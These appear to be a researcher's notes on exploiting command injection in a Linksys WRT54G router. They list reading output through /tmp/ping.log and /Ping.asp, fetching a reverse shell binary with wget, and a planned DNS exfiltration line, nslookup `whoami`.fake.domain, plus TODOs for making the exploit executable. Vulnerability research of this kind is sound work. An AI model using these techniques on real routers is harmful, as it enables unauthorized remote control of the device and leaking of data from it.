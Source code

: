 # Exploiting Linksys WRT54G


### Leads for leaking command output
- [x] Look for file paths that are displayed within the web interface that command output can be written to.  
  Using `/tmp/ping.log` to view the output at `/Ping.asp`.
- [x] Use `wget` to download reverse shell binary to the router.
- [ ] Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```


### TODOs
- Use argparse and make the exploit an executable.
- Start the reverse shell server within the exploit itself.


### Unsolved Mysteries
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


[Firmware Download Link](https://www.linksys.com/us/support-article?articleNum=148648)
